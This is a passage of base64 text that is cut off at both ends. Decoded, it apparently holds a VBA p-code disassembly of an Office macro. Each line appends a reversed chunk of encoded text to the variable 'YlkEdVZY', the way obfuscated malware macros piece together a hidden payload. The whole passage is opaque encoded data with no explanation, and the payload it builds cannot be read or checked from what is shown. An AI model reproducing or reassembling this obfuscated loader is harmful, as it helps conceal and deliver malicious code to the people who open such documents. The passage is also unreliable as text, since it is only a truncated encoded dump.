FHVmtXQ1psUlRKRVp1RmxVS2RWVTBNV1ZSRm5TVkZsU0dWVlZJWlVWa05rUldkbFFHQlRVQ2hYYlJKbFNYRmxSa1ZWVXhvRU1hcG1SVlpGU0d0V1pEWmtSYUprUndFbFFDcFdVdXAwVlJaRlpWRlZOS0JqV3FaVVZXbGtSckYyUUdWMVVDNTBNU0pFYyIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzEwMDoKCUxkIFlsa0VkVlpZIAoJTGl0U3RyIDB4MDBDOCAiRk4xUWtkRVZDUm5NUkpFY3JGbFVPWlZVT1pWVlJWbFNWVmxVR0JqWUZaMGFPSmtSR2RsUU9KalVDWmxiUkpsUlhGbFVrVlZVeW9FTWtwbFJGNUVTR1ZrWURSMlJVSmtSR05sUVNwV1VTQm5WUkpGYVZGVmFLVlZVTVpVVlJSa1JWOWtRR1YxVUNGVFJUSkVldEZsUVNkVlV5aFdWUkJuU1ZGVllHVmtUSVpVUmlORVp6a2xRR0ZUVUNSMlZSSkViVkZsUU9WVlUiCglBcmdzTGQgU3RyUmV2IDB4MDAwMSAKCUFkZCAKCVN0IFlsa0VkVlpZIApMaW5lICMxMDE6CglMZCBZbGtFZFZaWSAKCUxpdFN0ciAweDAwQzggIkNoWGJSTmpUWEZsVm9WVlV1WkVNa3BtUlZKRlNHQmpXQ1JtYlhKa1U2SmxRQzVXVXVwMFZSQnpZVkZGZUpCaldxWlVWUlJrUndNMlFHdFdXQ1pWTVNKVU90RjFNV1pWVUtoV1ZSTm5Td1EyYUdWMFRJWlVWVk5rUlZObFF4VTBVQzVrYVJOalNYRmxVa1ZWVXhvVVZWaG1Sd2sxUkdWVllDWkVNVEpVTUZObFE0MVdVQ0oxVlJKSGFWRkZSS1ZWVXJaVVZXaGtSIgoJQXJnc0xkIFN0clJldiAweDAwMDEgCglBZGQgCglTdCBZbGtFZFZaWSAKTGluZSAjMTAyOgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJWRjFkSlZWVnJaVVZSbGtSRlIyUWs1V1dDRkRNU0prV1VGbGJTZFZVd01XVlJOblNWRjFTR1ZWVUVaMGFqSmtSVk5sUXNCVFVDUjJWUjVtU1hGRk5qVlZVdVpFTWFwa1JWRkZSR3QyWUNaVVZUSmtWeElsUVM1V1VTeG1WUkJ6WVZGVk5LVlZWaFpVVlVsa1JWMTBRa0pEVkN4bVJUSmtWdUZsVXdaVlVTNVVWUjVtUndRR1RHVlZVRVpVVmhKa1JWTmxRc1YwVSIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzEwMzoKCUxkIFlsa0VkVlpZIAoJTGl0U3RyIDB4MDBDOCAiSVpVUlNOa1JWTmxRR1owVUNGVGJSTmpTWEZsVG9WVlV5b0VNYXBtUlZSRlNHVjBZRFprUldKa1J3RWxRR1JWVVNGVFZSSmtVVkZWTkdWVlVLWkVNaFJrUkZKMVFHQnpVQ1pFTVJKa1FxRmxRR2RWVXFSV1ZSZG5Td29sYUdCVFlKWkVNa05FWnVsbFF4VWxVQ1psYlJKRWJXRmxTT1ZWVXVaRU1reGtSVkZGUkdWa1lEWkViWkprVndJbFFXNVdVdTUwVlJaRloiCglBcmdzTGQgU3RyUmV2IDB4MDAwMSAKCUFkZCAKCVN0IFlsa0VkVlpZIApMaW5lICMxMDQ6CglMZCBZbGtFZFZaWSAKCUxpdFN0ciAweDAwQzggIndFbFFrZFZVQ3hXVlJablJWRjFUR1ZWVk1aVVZUUmtSVlIyUUdWMVZDSmxlU0pFWnRGbGI0VlZVU1JXVlJOblN3bzFhR1YxVUpaVVJpTkVaemtsUVdGalVDeG1iUkpFYlZGbFRvVlZVM2xVVlJobVJ3a0ZTR1YwWURSbU1aSmtSd0VsUU81V1VDcDBWUlprVlZGbGJHQmpXTlpVUk9oa1JyUjJRR1pWV0Naa1JUSkVhdEZsYk9kVlUwTVdWUk5qU3dvbGFHVjBUIgoJQXJnc0xkIFN0clJldiAweDAwMDEgCglBZGQgCglTdCBZbGtFZFZaWSAKTGluZSAjMTA1OgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJPaFdWUk5uU1ZGMWFHQlRZSlpVVmhOa1JyZGxRU3BuVUNoWGJSTmpUWEZsVU9WVlU2WlVWUjVrUndRR1JHdFdaRFpFYlhKa1JHTmxRV3BXVXV4bVZSSkZaVkZWTUtWVlZoWlVWVWxrUndFbVFHQnpVQ1pWTVNKa1FxRmxVR2RWVUtoV1ZSbGxTd29WVEdWVVRJWlVSaE5rUnNkbFFzVjBVQ0prYVJOalRYRmxVT1ZWVXVaVVZScGtSVkZGUkdCaldDWlVWVEprUiIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzEwNjoKCUxkIFlsa0VkVlpZIAoJTGl0U3RyIDB4MDBDOCAiVkYxUkdCaldDWkViWEpFYkdObFFDNVdVQ0oxVlI1RVpWRjFiS0JqV3FaVVZXaGtSRjEwUWsxV1dDUm5NU0pFWlhGbGJLZFZVR1JXVlI1bVJ3UTJhR1YwVElaRU1pTkVaWVpsUXhBVFVDUjJWUkpFYlZGbFFPVlZVdVpVVlJwa1JWRkZSR0JqV0NaVVZUSlVPWEZsUTFVVlV1NVVWUmRYUlZGMWRHVlZVb1pVVlZsa1JySjJRazFXV0NaVk1TSlVNckZsYjRWVlUiCglBcmdzTGQgU3RyUmV2IDB4MDAwMSAKCUFkZCAKCVN0IFlsa0VkVlpZIApMaW5lICMxMDc6CglMZCBZbGtFZFZaWSAKCUxpdFN0ciAweDAwQzggIkNaa1JUSmtTdEZsUTBWVlVDNVVWUlZUUlZGbFNHVkZWSlpVUmlOa1JGcGxRMGQwVUN4V2JSSkVjV0ZGTWpWVlV6cEVNa3BtUlZWRlJHQmpXQ1pVVlRKa1J3RWxRa2RWVUN4V1ZSSmtUVkZsYkdWVlVLWkVNaUprUnJSbFFHVmtXQ1pVUlRKa1V1RjFNS2RWVUtoV1ZSTmpTVkZsU0dCRFpJWkVNak5rUnNkbFFrSmpVQ0pGYlI1bVRYRmxWa1ZWVTZsRU1rbG1SIgoJQXJnc0xkIFN0clJldiAweDAwMDEgCglBZGQgCglTdCBZbGtFZFZaWSAKTGluZSAjMTA4OgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJYRmxWa1ZWVUpwVVZSeGtSVkZGUkd0MllDWlVWVEprVHlFbFFrZFZVellsVlJKa1dWRlZkR1ZWVU1aVVZVbGtSRkoyUUdWa1dDUjNSVEprVHJGbFFTZFZVV1JXVlJsa1N3b1ZUR0JUWUVaMGFUTmtSeFVsUXhVbFVDSkZiUkpsUldGbGRTVlZVeVVVVlZsbFJ3a0ZTR1ZGWkRaa1ZaSmtSeElsUWE1V1V6d21WUkJ6WVZGMWNLQmpXTlpVVlZsa1JGNTBRR3gyViIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzEwOToKCUxkIFlsa0VkVlpZIAoJTGl0U3RyIDB4MDBDOCAicVpFTVpka1JWUm1RR3hXV0NaRk1TSkVldEZsYk9kVlVTaFdWUlpqU1ZGMVNHVlZVRVpFTWFKa1JWTmxRR0JUVUNSMlZSSkViVkZsUU9WVlV1WkVNYVJrUkYxa1FHVjBZQ1JtYlRKa1VFSmxRMWNWVUN4V1ZScG5UVkZsYkdWVlVvWlVWVmxrUkZGMlFHVmxWQ0psZVJKa1FZRmxiS2RWVTBNV1ZSZG5TVkYxYUdWbFVJWjBhaE5FWnVsbFFraGxVQ0pGV1JKa1UiCglBcmdzTGQgU3RyUmV2IDB4MDAwMSAKCUFkZCAKCVN0IFlsa0VkVlpZIApMaW5lICMxMTA6CglMZCBZbGtFZFZaWSAKCUxpdFN0ciAweDAwQzggIlZObFFHQlRVQ1IyVlI1bVRWRjFkRlZWVU1aVVZWVmtSd0VHUkdCallEWlVSYUprVHlJbFFXNVdVU0JuVlJOalZWRlZNR0JEWnFaVVZXaGtSRjEwUUdabFdDeEdNU0pFZHRGbGJLZFZVV1JXVlJaalNWRjFTR0JEWkVaRU1rSmtSRlJsUXhVMFVDaFhiUkprVVhGbGNvVlZVd3BVVlJGbVJGNUVTR1ZrWURSMk1aSmtSeEVsUTVjVlVTQm5WUkpGYVZGMWRLQmpXIgoJQXJnc0xkIFN0clJldiAweDAwMDEgCglBZGQgCglTdCBZbGtFZFZaWSAKTGluZSAjMTExOgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJDQlhWUkprVFZGbGVHVlZVT1pVVlJSa1J3TW1Ra05UV0NaVk1TSmtRcUZsVVdkVlVLUldWUkpuUlZGRlRHVlZWSVpVUmhOa1JzZGxRc3RtVUNaRldSSmxTWEZsUmtWVlV6cEVNYXBtUlZWVlNHdFdaRFowYVRKa1J3RWxRc1JWVUN4V1ZSSkhaVkZsY0dWVlVNWkVNYVJrUkZKMlFHdFdXQ1JuTVNKVU90RjFNU2RWVUM1VVZSNW1SVkZsU0dWVlVFWkVNYUprUiIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzExMjoKCUxkIFlsa0VkVlpZIAoJTGl0U3RyIDB4MDBDOCAiVkZsU0dWVlVFWkVNYUprUlZObFFHQlRVQ1IyVlJKRWJWRmxRT1ZWVU1aVVZWVmtSd01XU0dCaldDWlVWVEprUndFbFFrZFZVQ3hXVlJKa1RWRmxiR1ZWVUtaRU1pSmtSclJsUUdGelVDWlVSU0pFWlhGbFV3WlZVd01XVlJCalJWRmxTR0JUWUVaVVJqSmtSVmxsUUdaMFVDVlRiUjVtU1hGbFZrVlZVT3BFTWExa1JWUlZTR1ZrWURaVVJhSkVkSE5sUXMxV1UiCglBcmdzTGQgU3RyUmV2IDB4MDAwMSAKCUFkZCAKCVN0IFlsa0VkVlpZIApMaW5lICMxMTM6CglMZCBZbGtFZFZaWSAKCUxpdFN0ciAweDAwQzggIkRaa1ZhSlVNckpsUWtkVlVTQm5WUmQzWVZGMWJLQmpXVlpVVldoa1J3UTJRR1psV0NaRWJTSmtVWUZsUXNWVlVTaFdWUkZuU1ZWVllHQmpZSVpVVmhORVpJWmxRQ3BYVUM1a2FSSkZjV0ZGTVZWVlV1WlVWVkZsUlZGRlJHVlVURFpVVmFKa1Z4SWxRV3hXVUNCblZSWkZaVkZsY0tCRFpwWlVWVWhrUlZSMlFHeFdWQ1pVTVJKRVpYRmxRc1ZWVUM1VVZSNW1SIgoJQXJnc0xkIFN0clJldiAweDAwMDEgCglBZGQgCglTdCBZbGtFZFZaWSAKTGluZSAjMTE0OgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJYRmxVc1pWVVNoV1ZSOW1TVkZWWUdWVlZFWkVNYUprUlZObFFHQlRVQ1IyVlJKRWJWRmxRT1ZWVXVaVVZScGtSVkZGUkdCaldDWlVWVEprUndFbFEwVlZVU0pWVlJwR1pWRlZNS1ZWVm9aVVZWaGtSclIyUWtoMVZDSmxlU0prV3JGbFVPWlZVeVpWVlJWa1N3UW1WR1ZsVUdaVVZrSmtSRnBsUWtkMFVDaFhiUkprV1dGRk1OVlZVd29VVlZGbVJWVlZTR3RXWiIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzExNToKCUxkIFlsa0VkVlpZIAoJTGl0U3RyIDB4MDBDOCAidVpVVlJwa1J3SW1RR3RHVkNaVU1USkVkeUlsUTBkVlVDeFdWUk5qVFZGMU1HVlZVTlpVVlVsa1JGSjJRR1ZrV0NSM1JUSkVidEZsUXdWVlV1NVVWUlZuU3dvVmFHQlRZSVpVVmxOa1JGcGxReHNtVUNKa2FSSkZjV0ZsYVdWVlV4WVVWUnRtUndvVlNHVmtZRFowYVdKa1J4SWxRNDFXVUNCblZSUnpZVkZWY0tCaldwWlVWV1prUndFbVFHVjFVQ0pFUlNKRVoiCglBcmdzTGQgU3RyUmV2IDB4MDAwMSAKCUFkZCAKCVN0IFlsa0VkVlpZIApMaW5lICMxMTY6CglMZCBZbGtFZFZaWSAKCUxpdFN0ciAweDAwQzggIndvbFFHVjFVQ1pFTVJKRVpYRmxRc1ZWVUM1VVZSNW1SVkZsU0dWVlVFWkVNYUprUlZObFFHQlRVQ1JYVlJKbFVWRmxlb1ZWVXVaVVZScGtSVkZGUkdCaldDWlVWVEprUndFbFFrZFZVQ3hXVlJKa1RWRmxiR1ZWVUtaVVZSUmtSd01sUUdaa1VDUjNSVEpFYnVGbFFTZFZVQzVVVlI1bVJWRmxTR1ZWVUVaRU1hSmtSVk5sUUdCVFVDUjJWUkpFYlZGbFFPVlZVIgoJQXJnc0xkIFN0clJldiAweDAwMDEgCglBZGQgCglTdCBZbGtFZFZaWSAKTGluZSAjMTE3OgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJDUjJWUjVtVFZGMWRGVlZVeFlVVlJ0bVJWWkZTR3RtWURSbU1aSmtWd0lsUUNwV1VDeFdWUlpGWlZGbGRLVlZVclpVVlJSa1JWUjJRazVXV0NaRU1SSkVkdEZsYktkVlVHUldWUkJqU1ZWVmFHVjBUSVowYWhOa1JWTmxRV0ZqVUNsVGJSSmtVWEZsUU9WVlV6cFVWUnRtUlZaVlNHdFdZRFpFYlhKRVpITmxRYXRXVXp3V1ZSSmtUVkZsYkdWVlVLWlVWUlJrUiIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzExODoKCUxkIFlsa0VkVlpZIAoJTGl0U3RyIDB4MDBDOCAiVkZsTktCRFpxWlVWV2hrUlZWMlFHQlRXQ1IyUlRKa1dyRmxVNFZWVVdSV1ZSbG5Td1FXYUdWMVZKWlVWa05rUnhVbFFrSlRVQ1IyVlJKbFFXRmxRT1ZWVTVwRU1rcGxSVkpGU0dWVllEWjBhWEprVTZKbFE0MVdVejQwVlJKbFRWRmxiR1ZWVUtaVVZSUmtSd29sUUdWMVVDWkVNUkpFWlhGbFFzVlZVQzVVVlI1bVJWRmxTR1ZWVUVaRU1hSmtSVk5sUUdCVFUiCglBcmdzTGQgU3RyUmV2IDB4MDAwMSAKCUFkZCAKCVN0IFlsa0VkVlpZIApMaW5lICMxMTk6CglMZCBZbGtFZFZaWSAKCUxpdFN0ciAweDAwQzggIkVaRU1hSmtSVk5sUTVjVlVDVlRWUkpGZFZGbFFPVlZVMXBFTWFsbVJ3RUdTR1ZWWkRaVVJhSlVNckpsUVNoVlVDSjFWUlpGYVZGVlVLVlZVS1pFTWtsa1J3b2xRR1pGVkN4V01SSkVkVEZsYnhVVlVDNVVWUjltU1ZGMWFHVmxVSVpFTWhOa1JyTmxRR0JUVUNSWGJSNW1TWEZsUmtWVlV3b1VWVmxtUkY5RVNHVmtVRFprUlVKa1J3RWxRVzVXVXpvMFZSSkhaIgoJQXJnc0xkIFN0clJldiAweDAwMDEgCglBZGQgCglTdCBZbGtFZFZaWSAKTGluZSAjMTIwOgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJ3RWxRa2RWVUN4V1ZSSmtUVkZsYkdWVlVLWlVWUlJrUndvbFFHVjFVQ1pFTVJKRVpYRmxiT1ZWVTNWVVZSWm5Td1FtV0dWVlZKWlVSaE5FWllkbFFHQlRVQ1IyVlJKRWJWRmxRT1ZWVXVaVVZScGtSVkZGUkdCaldDWlVWVEprUndFbFFrZFZVQ3hXVlJablJWRjFUR1ZWVnRaVVZSUmtSd29sUUdWMVVDWkVNUkpFWlhGbFFzVlZVQzVVVlI1bVJWRmxTR1ZWVSIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzEyMToKCUxkIFlsa0VkVlpZIAoJTGl0U3RyIDB4MDBDOCAieVJXVlJablNWRjFhR1ZsVklaVVJrTkVadWxsUXhzbVVDeDJWUkpFYlZGbGFrVlZVeG9VVlZobVJGNUVTR1ZWWkRaa1ZYSmtUdEpsUVNoVlVTQm5WUkpGYVZGMWRLQmpXcVpFTVpka1J3b2xRR1YxVUNaRU1SSkVaWEZsUXNWVlVDNVVWUjVtUlZGbFNHVlZVRVpFTWFKa1JWTmxRR0JUVUNSMlZSSkViVkZsUU9WVlV1WkVNYVJrUkYxa1FHQmpURFpVVlRKa1IiCglBcmdzTGQgU3RyUmV2IDB4MDAwMSAKCUFkZCAKCVN0IFlsa0VkVlpZIApMaW5lICMxMjI6CglMZCBZbGtFZFZaWSAKCUxpdFN0ciAweDAwQzggIkY1RVNHdEdaRFpVVlRKa1J4SWxRVzVXVVN4bVZSZDNZVkZGTUtCRFpwWlVWVWhrUndvbFFrMTJWQ2htZVNKRVpYRmxiS2RWVTBNV1ZSZG5TVkYxYUdWbFZKWjBhaE5rUnNkbFFrZDBVQ2hYYlJKRWJWRmxia1ZWVTNsVVZWaG1Sd2tWU0dCaldDUm1iWEprVTZKbFFhNVdVdTUwVlJwR2FWRmxiR1ZWVXJaVVJPaGtSRkoyUWtoa1dDWkVNUkpVTnRGbGJLZFZVIgoJQXJnc0xkIFN0clJldiAweDAwMDEgCglBZGQgCglTdCBZbGtFZFZaWSAKTGluZSAjMTIzOgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJDaG1lU0pFYnVGbGJPZFZVV1pWVlJCalJWVlZZR1ZWVkpaVVJqTkVaeWtsUU8xbVVDUjJWUkpFYlZGbFFPVlZVdVpVVlJwa1JWRkZSR0JqV0NaVVZUSmtSd0VsUWtkVlVDeFdWUkprVFZGbGJHVlZVS1pVVlJSa1J3b2xRa0pUVUNKRVZSSkVaWEZsYnNWVlV3MFVWUmRYU1ZWVllHQlRXSVpVVmxOa1JXZGxRR1owVUNSMlZSSkZjV0ZsYmtWVlUzbFVWUnBrUiIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzEyNDoKCUxkIFlsa0VkVlpZIAoJTGl0U3RyIDB4MDBDOCAiVkZsZWtWVlV4cFVWVnBsUlZORlNHQlRZRFJXYlpKa1Z4SWxRdzVXVUNCWFZSSmtUVkZsYkdWVlVLWlVWUlJrUndvbFFHVjFVQ1pFTVJKRVpYRmxRc1ZWVUM1VVZSNW1SVkZsU0dCallDWjBhVUprUnNwbFFHQlRVQ1IyVlJKRWJWRmxRT1ZWVXVaVVZScGtSVkZGUkdCaldDWlVWVEprUndFbFFrZFZVQ3hXVlJablJWRjFUR0JEWlpaVVZWUmtSd29sUWtKVFciCglBcmdzTGQgU3RyUmV2IDB4MDAwMSAKCUFkZCAKCVN0IFlsa0VkVlpZIApMaW5lICMxMjU6CglMZCBZbGtFZFZaWSAKCUxpdFN0ciAweDAwQzggInJaVVZTaGtSVlYxUWtkRVZDUm5NUkprVnVGMU1LZFZVeVJXVlJkWFNWVmxXR1ZGVklaMGFrTmtSRlpsUUNwWFVDSmthUkpGY1dGbGFXVlZVMlpVVlJwa1J3TUdSR0JqV0NSbWJUSmtSd0VsUVN4V1VDWmxWUnBtVFZGbGJHQkRaTVpVVlJSa1JyTjJRa2gxVkNaRk1TSkVidEZsUXdaVlV3TVdWUk5uU3dRbWFHVlZWRVpFTWFKa1JHVmxRR0JUVUNSMlZSNVdNIgoJQXJnc0xkIFN0clJldiAweDAwMDEgCglBZGQgCglTdCBZbGtFZFZaWSAKTGluZSAjMTI2OgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJHcGxRb1JsVUNSMlZSSmtXWEZsUU9WVlVycFVWUjVrUndNMlJHVlZaRFJtYlpKRWJGTmxRczVXVVNCblZSSmxUVkZsZEdWVlVLWlVSTlZrUndvbFFHVmxXQ1pVTVJKRVpYRmxRc1ZWVUM1VVZSNW1SVkZsU0dWVlVFWkVNYUprUlZObFFHQlRVQ1IyVlJKRWJWRmxRT1ZWVU1aVVZWVmtSd2tGUkdCaldDUjJSVkprVHlFbFFrZFZVelFYVlJKa1RWRmxkS1ZWVSIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzEyNzoKCUxkIFlsa0VkVlpZIAoJTGl0U3RyIDB4MDBDOCAiQ3hXVlJKa1RWRmxiR0JqV0VaVVJOSmtSRk5tUUdCelVDeFdSVEpFYXRGbFV3WlZVelFXVlJGblN3b1ZUR1YxVUpaMGFrTkVaeWtsUXNWMFVDaFhiUkpFY1ZGbFFPVlZVdVpVVlJwa1JWRkZSR0JqV0NaVVZUSmtSd0VsUWtkVlVDeFdWUkprVFZGbGJHVlZVS1pFTWlKa1JyUmxRR0Z6VUM1a01TSmtWdUZsVUdkVlVLaFdWUmRYU3dRbVZHVlVURVpVUk5Oa1IiCglBcmdzTGQgU3RyUmV2IDB4MDAwMSAKCUFkZCAKCVN0IFlsa0VkVlpZIApMaW5lICMxMjg6CglMZCBZbGtFZFZaWSAKCUxpdFN0ciAweDAwQzggIlZGbFNHQmpZQ1owYVVKRVp5RWxRQ1JWVUNKbGFSSkVjVkZsUU9WVlU1WlVWUnBrUlZOVlJHdDJZRFJHV1hKa1Z3SWxRczFXVUNCblZSQnpZVkYxY0tCRFpxWlVWVlJrUndvbFFHWlVWQ1pFTVJKRWJZRjFNR2RWVU9SV1ZSOW1Td29sV0dWVlZJWlVWa05rUnNkbFF4VTBVQ1IzVlJKRWJWRmxRT1ZWVXVaVVZScGtSVkZGUkdCaldDWlVWVEprUndFbFFrZFZVIgoJQXJnc0xkIFN0clJldiAweDAwMDEgCglBZGQgCglTdCBZbGtFZFZaWSAKTGluZSAjMTI5OgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJDWlVWVEprUndFbFFrZFZVQ3hXVlJKa1RWRmxiR1ZWVUtaVVZSUmtSd29sUUdWMVVDbHpWUkpVTlZGMU1PZFZVU2hXVlJwblNWVjFhR1ZGVkpaVVJpTkVaeWtsUUdCVFVDaFhiUkprUlhGbFVvVlZVdVpFTWFsbVJWTlZTR1ZWVERaVVJhSmtWeElsUU94V1V6d1dWUkprVFZGbGJHVlZVS1pVVlJSa1J3b2xRR1YxVUNaRU1SSkVaWEZsUXNWVlVDNVVWUjVtUiIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzEzMDoKCUxkIFlsa0VkVlpZIAoJTGl0U3RyIDB4MDBDOCAickZsUVNkVlVXUldWUmxrU3dvVlRHQlRZRVowYVROa1J4VWxReFVsVUNKRmJSSmxSV0ZsZFNWVlV5VVVWVmxsUndrRlNHVkZaRFprVlpKa1J4SWxRYTVXVXp3bVZSQnpZVkYxY0tCaldOWlVWVmxrUkY1MFFHeDJWQ1prUlRKa1N0RmxRMFZWVUM1VVZSVlRSVkZsU0dWbFZJWlVSTk5rUldwbFFzQmpVQ1JYYlI1bVNYRmxWa1ZWVTJvVVZSdGtSVkZGUkdCalciCglBcmdzTGQgU3RyUmV2IDB4MDAwMSAKCUFkZCAKCVN0IFlsa0VkVlpZIApMaW5lICMxMzE6CglMZCBZbGtFZFZaWSAKCUxpdFN0ciAweDAwQzggIjNsVVZWaG1SVk5WU0dWMFZEUjJSVUprUTZKbFFvMVdVU0JuVlJwRWFWRjFkSkJEWnFaVVZWUmtSd29sUUdWMVVDWkVNUkpFWlhGbFFzVlZVQzVVVlI1bVJWRmxTR1ZWVUVaRU1hSmtSVk5sUUdCVFVDUlhWUkpsVVZGbGNPVlZVMVlFTWtobVJWUkZTR1ZVWURSMlZYSmtSeElsUVc1V1VTQm5WUjVFYVZGbGNHVlZVTVpVVlVsa1JGSjJRR1ZrV0NSM1JUSmtUIgoJQXJnc0xkIFN0clJldiAweDAwMDEgCglBZGQgCglTdCBZbGtFZFZaWSAKTGluZSAjMTMyOgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJ3b2xRR1YxVUNaRU1SSkVaWEZsUXNWVlVDNVVWUjVtUlZGbFNHVlZVRVpFTVRKa1JHSmxRMEpUVUNsVGJSSmtVWEZsYWtWVlV4b1VWVkZtUndRbVJHVkZaQ1pFYlhKa1JHTmxRV3BXVXV4bVZSSkZaVkZWTUtWVlZoWlVWVWxrUndFbVFHVkVWQ1pVUlNKa1RZRmxVd1pWVVNoV1ZSRlRTd29sV0dWVlZJWlVWa05rUnNkbFF4VTBVQ1IzVlJKRWRWRmxWa1ZWVSIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzEzMzoKCUxkIFlsa0VkVlpZIAoJTGl0U3RyIDB4MDBDOCAiQ1IzVlJKRWJWRmxRT1ZWVXVaVVZScGtSVkZGUkdCaldDWlVWVEprUndFbFEwVlZVU0pWVlJkM1pWRmxiR1ZWVUtaVVZSUmtSd29sUUdWMVVDWkVNUkpFWlhGbFFzVlZVMlpVVlI5a1JWRmxTR1ZWVUVaVVJqSmtSd01sUWtKalVDQm5iUkpsVVhGMU1rVlZVSXBFTWExa1JGMUVTR1ZVWURaRWJYSkViRk5sUUNwV1V6NDBWUkpsVFZGbGJHVlZVS1pVVlJSa1IiCglBcmdzTGQgU3RyUmV2IDB4MDAwMSAKCUFkZCAKCVN0IFlsa0VkVlpZIApMaW5lICMxMzQ6CglMZCBZbGtFZFZaWSAKCUxpdFN0ciAweDAwQzggIlZGbGJHVlZVS1pFTWlKa1JyUmxRR0Z6VUN4V1JUSkVldEZsYktkVlVXUldWUmRYU3dRbWFHQlRZSVpFTWpOa1JyTmxRa0pUVUNSMlZSNUdjV0ZsY2tWVlV1WlVWUnBrUlZGRlJHQmpXQ1pVVlRKa1J3RWxRa2RWVUN4V1ZSWm5SVkYxVEdWVlZNWkVNYVJrUkZKMlFrTlRXQ2htZVNKa1R1RjFNR1pWVXcwVVZSZFhTd29WYUdWbFZJWlVSak5rUnJsbFF4QWpVIgoJQXJnc0xkIFN0clJldiAweDAwMDEgCglBZGQgCglTdCBZbGtFZFZaWSAKTGluZSAjMTM1OgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJFWkVNYUprUlZObFFHQlRVQ1JYVlJKbFVWRmxjT1ZWVTJaVVZScG1SRjlFU0dWVVREUkdXV0prVTZGbFFzNVdVU0JuVlJCellWRjFjS1ZWVXJaVVZVbGtSRk4yUUd0V1dDWlVNUkpFWlhGbFFzVlZVQzVVVlI1bVJWRmxTR1ZWVUVaRU1hSmtSVk5sUUdCVFVDUjJWUkpFYlZGbFFPVlZVTVpVVlZWa1J3TVdTR0JqV0NaVVZUSmtSd0VsUWtkVlVDeFdWUkprVCIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzEzNjoKCUxkIFlsa0VkVlpZIAoJTGl0U3RyIDB4MDBDOCAiRk5sUW94V1VDeFdWUkprVFZGbGJHVlZVS1pVVlJSa1J3b2xRR1YxVUNaRU1SSkVkVkZsVVNWVlU2aFdWUjVtUlZGbFNHVlZVRVpFTWFKRVp5RWxRQ1JWVUNsVGJSTkRiV0ZsVW9WVlV2cEVNa3BsUlZGRlJHQmpXQ1pVVlRKa1J3RWxRMFZWVVNKVlZSZDNaVkZsYkdWVlVLWlVWUlJrUndvbFFrSlRVQ0pFVlJKRWJxRmxRc1ZWVUM1VVZSNW1SVkZsU0dWVlUiCglBcmdzTGQgU3RyUmV2IDB4MDAwMSAKCUFkZCAKCVN0IFlsa0VkVlpZIApMaW5lICMxMzc6CglMZCBZbGtFZFZaWSAKCUxpdFN0ciAweDAwQzggInlSV1ZSNW1Sd1FHYUdWRlZJWlVSaU5rUlZsbFF4VWxVQ1IyVlJKRmJWRmxha1ZWVXhvRU1rbG1SVk5WU0dCVFREWlVWVEprUkdObFFXNVdVU0JuVlJwR2FWRmxiR0JEWmhaVVJPaGtSRk4yUUdWVldDWmtSVEpFZXRGbFVLZFZVME1XVlJWbFN3b2xTR1ZWVUVaMGFpTkVadGxsUTBKalVDWmxiUjVtVFhGbFJrVlZVWnBVVlYxa1JWWkZTR1ZVVERaa1ZaSkViIgoJQXJnc0xkIFN0clJldiAweDAwMDEgCglBZGQgCglTdCBZbGtFZFZaWSAKTGluZSAjMTM4OgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJGNUVTR1YwWURSMk1aSmtWR05sUWtkVlVTQm5WUnBFYVZGMWJLVlZVS1pVVldsa1JyUjJRR1psV0NaRU1SSkVkdEZsYktkVlVHUldWUjVtUlZWVllHQkRaSVpVVmhOa1JXZGxRa0pqVUNCWGJSSkZiV0ZsVmtWVlUxb1VWUnBrUlZSVlNHVjBZRFpVVlRKRWJGTmxRNDFXVXVKMVZScEVhVkYxY0tCRFpxWlVWUlJrUkZKMlFHVlZXQ1prUlRKRVpYRmxid1pWVSIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzEzOToKCUxkIFlsa0VkVlpZIAoJTGl0U3RyIDB4MDBDOCAiQ3hXUlRKa1d1RmxiT2RWVUtoV1ZSZGtTVlZWVEdWbFZJWlVSTk5rUldsbFFzVjBVQ2hHYlJKRWJWRmxRT1ZWVXVaVVZScGtSVkZGUkdCaldDW